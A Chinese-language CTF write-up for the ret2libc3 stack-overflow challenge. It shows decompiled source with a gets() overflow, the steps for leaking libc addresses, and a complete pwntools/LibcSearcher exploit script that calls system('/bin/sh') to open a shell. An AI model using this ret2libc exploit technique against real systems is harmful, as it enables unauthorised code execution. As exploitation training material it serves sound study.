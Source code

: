 ```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```

思路：

1. 泄露 __libc_start_main 地址
2. 获取 libc 版本
3. 获取 system 地址与 /bin/sh 的地址
4. 再次执行源程序
5. 触发栈溢出执行 system(‘/bin/sh’)

EXP如下：

```
#!/usr/bin/env python
from pwn import *
## 导入工具
from LibcSearcher import LibcSearcher
## 本地连接
sh = process('./ret2libc3')
## 将文件加载入进程
ret2libc3 = ELF('./ret2libc3')

##简化libc库中函数地址的表示方法
puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

## 监视程序进行到哪一步，提醒自己
print "leak libc_start_main_got addr and return to main again"
## puts函数泄露出start_main函数地址
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])

## 在输出前面字符串后，将payload输入
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
##将接收到的puts函数的输出，经过u32由机器码转换成常见的地址形式
libc_start_main_addr = u32(sh.recv()[0:4])
##通过函数名与函数地址作为参数，用LibcSearcher找到libc版本号。
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
## 泄露出libc中start_main()函数地址，减去相对地址，得基地址。
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
## 已知基地址与相对地址，得到绝对地址
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

## 监视程序进行到哪一步
print "get shell"

payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
